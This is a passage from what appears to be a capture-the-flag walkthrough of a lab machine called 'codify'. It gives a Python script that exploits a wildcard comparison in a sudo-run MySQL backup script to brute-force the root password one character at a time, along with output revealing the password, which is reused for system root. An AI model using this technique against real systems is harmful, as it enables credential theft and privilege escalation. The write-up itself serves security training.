 ```python
                else: next=0
print("[+] Process terminated, root password is: "+password)
```

Or

We can guess or brute force the first password character followed by * to bypass the password prompt. And we can also brute force every character of the password till we found all characters of the password. Here is the python script, I used to brute force and extract the password.

```python
import string
import subprocess
all = list(string.ascii_letters + string.digits)
password = ""
found = False

while not found:
    for character in all:
        command = f"echo '{password}{character}*' | sudo /opt/scripts/mysql-backup.sh"
        output = subprocess.run(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, text=True).stdout

        if "Password confirmed!" in output:
            password += character
            print(password)
            break
    else:
        found = True
```

Running it, the root mysql password is revealed in less than a minute, which turns out to be a reuse of the system's root password.

```bash
joshua@codify:~$ nano 1.py
joshua@codify:~$ python3 1.py
k
kl
klj
kljh
kljh1
kljh12
kljh12k
kljh12k3
kljh12k3j
kljh12k3jh
kljh12k3jha
kljh12k3jhas
kljh12k3jhask
kljh12k3jhaskj
kljh12k3jhaskjh
kljh12k3jhaskjh1
kljh12k3jhaskjh12
kljh12k3jhaskjh12k
kljh12k3jhaskjh12kj
kljh12k3jhaskjh12kjh
kljh12k3jhaskjh12kjh3
```
